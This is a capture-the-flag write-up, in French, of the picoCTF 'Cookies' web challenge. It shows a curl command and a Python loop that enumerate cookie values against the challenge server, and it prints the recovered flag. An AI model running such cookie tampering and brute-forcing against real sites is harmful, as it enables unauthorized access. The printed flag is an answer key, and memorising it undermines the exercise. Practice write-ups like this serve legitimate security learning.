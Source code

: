 # Cookies

## 0x1 Description

>Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:17781/

## 0x2 Analyse

Encore une fois, la description est très explicite, nous allons devoir jouer avec les cookies et il y en aura surement un meilleur que les autres

Après avoir entré le nom du premier biscuit qu'ils nous propose, nous avons la structure du cookie qui nous est donnée:

![Cookie's structure](./IMG/cookie.png)

Pas besoin d'être un génie pour comprendre qu'il va falloir incrémenter la valeur contenue dans **name**

## 0x3 Résolution avec cURL

Le principe est de faire une petite boucle qui va incrémenter la valeur et appeler la vérification avec cette donnée.

Ce qui donne après quelques itérations le résultat suivant:

>curl --cookie "name=18" http://mercury.picoctf.net:17781/check
>
>flag = picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535}

## 0x4 Vérification avec Cookie Quick Manager

Avec n'importe quel éditeur de cookie, vous pouvez le modifier et une fois la page rechargée voir apparaitre la solution:

![flag](./IMG/flag.png)

## 0x5 Résolution avec un script en python

Comme expliqué , nous allons faire une boucle qui testera toutes les possibilité de cookie, pour ce faire, voici le code que j'ai écrit:

```python
#!/usr/bin/env python

import pwn
import requests
import re

regex = "picoCTF{.*?}"
url = "http://mercury.picoctf.net:17781/check"
s = requests.Session()

def Exploit():
    pwn.log.progress("Searching for the flag")
    while True:
        for miaou in range (0,100):
            cookies = {'name': str(miaou)}
            req = s.get(url, cookies=cookies)
            req = req.content
            result = re.findall(regex, str(req))
            flag = result
            if result:
                for f in flag:
                    pwn.warn("Cookie was: {}".format(cookies))
                    pwn.success("Flag is: {}".format(f))
                    break
                return

if __name__ == "__main__":
    Exploit()
```
